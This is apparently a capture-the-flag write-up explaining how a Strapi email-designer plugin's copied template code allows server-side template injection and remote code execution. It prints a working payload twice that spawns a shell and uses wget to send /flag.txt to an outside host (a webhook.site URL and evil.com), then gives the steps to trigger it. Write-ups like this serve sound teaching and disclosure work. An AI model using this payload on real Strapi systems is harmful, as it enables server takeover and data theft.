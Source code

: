 Checking the dependencies you can see that `strapi-plugin-email-designer` is installed.

Checking the Github issues, you can see me trying to get in contact with the developer (they have ghosted me since January...)

[In this issue, I clearly pointed out they copied and pasted the vulnerable email template code from Strapi which made the plugin vulnerable to RCE](https://github.com/alexzaganelli/strapi-plugin-email-designer/issues/123).

[In the vulnerability disclosure for Strapi you can grab the SSTI email template payload](https://www.ghostccamm.com/blog/multi_strapi_vulns/).

```
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","wget https://webhook.site/93919218-4b8a-4092-9bfb-42782231afd1?flag=$(cat /flag.txt)"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Checking the provided source code, there is a custom API for sending emails from a template using the email designer plugin that can be accessed at `/api/sendtestemail/:refId`.

Exact steps to solve:

1. Login in with the provided account and create a custom email template using the email designer plugin with the following payload.

```
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","wget https://evil.com?flag=$(cat /flag.txt)"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

2. Send a request to `/api/sendtestemail/{refId}` where `{refId}` is the template reference ID created in step 1.